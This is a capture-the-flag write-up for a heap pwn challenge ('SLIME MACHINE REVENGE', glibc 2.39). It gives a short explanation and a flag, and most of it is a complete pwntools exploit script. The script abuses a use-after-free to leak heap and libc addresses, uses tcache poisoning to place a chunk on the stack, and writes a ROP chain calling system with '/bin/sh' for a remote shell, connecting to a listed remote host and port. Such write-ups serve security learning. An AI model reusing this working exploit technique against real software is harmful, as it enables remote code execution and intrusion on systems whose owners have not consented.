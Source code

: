 # SLIME MACHINE REVENGE
> Author: 堇姬Naup

tag: pwn, heap, gilbc 2.39

## description
❤❤❤Do you like slime?Slime is so cute. If you want to marry slime, you can DO ITTTT!❤❤❤

## writeup
It give me stack address.
The binary have UAF. We can write and read in the free chunks.
Use UAF read libc address and find libc base(malloc one 0x420 chunk and then free it. fd/bk have libc address)
Use UAF read heap address, the first heap's pointer protect is so weak. Use `<< 12` can recover the heap base. Use it caculate all heap's pointer.
Use tcache poinsoning. And malloc one fake chunk to stack, and wirte return address. Choose exit,  it will jump to return address. We have libc base, and I write ROP chain(gadget from libc).
RCE~

## flag
> NHNC{Slimes_issss_so_cute_and_evil!!!So_crazy_you_really_love_SLIME!!!!!}

## exploit
```py
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 23.146.248.196 48763")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)


### heap I/O
def create(size):
    sla(b'>>> ',b'1')
    sla(b'size:',str(size).encode())

def get(idx):
    sla(b'>>> ',b'2')
    sla(b'index: ', str(idx).encode())

def Set(idx,data):
    sla(b'>>> ',b'3')
    sla(b'index: ',str(idx).encode())
    sla(b'data: ',data)

def delete(idx):
    sla(b'>>> ',b'4')
    sla(b'index: ',str(idx).encode())

def EXIT():
    sla(b'>>> ',b'5')
### exploit

rcu('gift: ')
leakstack = int(rcl().strip()[:-1],16)<<4
retaddress = leakstack - 0x10

create(0x60)
create(0x60)
delete(0)
delete(1)
get(0)

rcu(b']: ')
leakheap = u64(rc(5).ljust(8,b'\x00'))
heapbase = leakheap << 12

chunk1_ptr_addr = heapbase + 0x290 - 0x10
chunk2_ptr_addr = heapbase + 0x300 - 0x10

dec_retaddress = retaddress ^ (chunk2_ptr_addr >> 12)
Set(1,p64(dec_retaddress))

create(0x60)
create(0x60)

create(0x600)
create(0x20)
delete(4)
get(4)
rcu(b']: ')
leaklibc = u64(rc(6).ljust(8,b'\x00'))
libcbase = leaklibc - 0x203b20

libc_system = libcbase + 0x58740
pop_rdi = libcbase + 0x10f75b
ret = pop_rdi + 0x1
binsh = libcbase + 0x1cb42f
Set(3,b'a'*0x8+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(libc_system))

### INFO
NAUPINFO("LEAK STACK",hex(leakstack))
NAUPINFO("LEAKHEAP",hex(leakheap))
NAUPINFO("HEAP BASE",hex(heapbase))
NAUPINFO("CHUNK1 PTR",hex(chunk1_ptr_addr))
NAUPINFO("CHUNK2 PTR",hex(chunk2_ptr_addr))
NAUPINFO("retaddress",hex(retaddress))
NAUPINFO("LEAKLIBC",hex(leaklibc))
NAUPINFO("LIBCBASE",hex(libcbase))
### interactive
ita()
```
